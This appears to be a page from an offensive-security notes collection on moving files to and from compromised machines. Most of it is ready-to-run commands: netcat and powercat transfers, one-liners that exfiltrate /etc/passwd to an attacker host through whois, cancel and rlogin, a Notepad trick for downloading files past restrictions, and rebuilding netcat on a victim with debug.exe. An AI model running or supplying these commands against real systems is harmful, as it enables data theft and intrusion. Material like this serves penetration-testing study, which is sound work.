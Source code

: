 # ⭕ Other Methods

## <mark style="color:red;">netcat</mark>

#### push files from client to listener (and vice versa):

```
listener: nc -nvlp [local port] > [out file]
clinet: nc [ip] [remote port] < [in file]
```

### <mark style="color:orange;">netcat HTTP server</mark>

```
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

#### this will serve a single webpage.

```
while true; do nc -l -p 80 -q 1 < error.html; done
```

## <mark style="color:red;">Powercat File Transfers</mark>

```
nc -lnvp 443 > receiving_powercat.ps1
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## <mark style="color:red;">ncat Secure Transfer</mark>

```
ncat -nvlp port --ssl > out-file
ncat -nv target-ip port --ssl < file-to-send
```

## <mark style="color:red;">WHOIS Data Exfiltration</mark>

```
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

## <mark style="color:red;">Cancel Data Exfiltration</mark>

```
cancel -u "$(cat /etc/passwd)" -h ip:port
```

## <mark style="color:red;">Rlogin Data Exfiltration</mark>

```
rlogin -l "$(cat /etc/passwd)" -p port host
```

## <mark style="color:red;">Notepad Dialog Box File Download</mark>

If you have access (RDP, physical, etc.) to a machine, but your user permissions do not allow you to open a web browser, this is a trick you can use to quickly download a file from a URL or a Universal Naming Convention (UNC) path. This also works well when you are breaking out of a locked-down application being run on a terminal.

* Open notepad
* Go to file – open
* in the File Name box near the bottom, type in the full URL path to your file

![](<../../.gitbook/assets/image (229).png>)

Notepad is kind enough to go out and grab the contents of this file for you.



## <mark style="color:red;">debug.exe</mark>

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

## <mark style="color:red;">LOLBines For Windows</mark>

#### check out these windows native tools/utilities for file transfer (download)

{% embed url="https://lolbas-project.github.io/#/download" %}

